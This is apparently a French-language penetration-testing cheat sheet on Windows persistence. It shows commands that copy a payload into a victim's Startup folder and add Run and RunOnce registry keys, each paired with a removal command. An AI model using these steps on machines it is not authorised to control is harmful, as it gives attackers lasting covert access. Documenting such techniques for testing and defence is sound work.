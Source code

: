 
> [!NOTE] Everyone

**Start Folder**
Elle consiste a copier le payload dans le répertoire de démarrage de la victime

Setup:

```sh
copy c:\pers\payload.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
```

_Supprimer:_
```http
del "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe"
```

---

**Registry Keys**
Sur la machine cible ajouter une clé de registre dans:

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

Voir le contenu d'un registre

```c
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"
```

Ajouter une cle de register contenant votre payload:

Setup:

```sh
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Winconfig /t REG_SZ /d "c:\pers\payload.exe" /f
```

_Supprimer_
```http
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Winconfig /f
```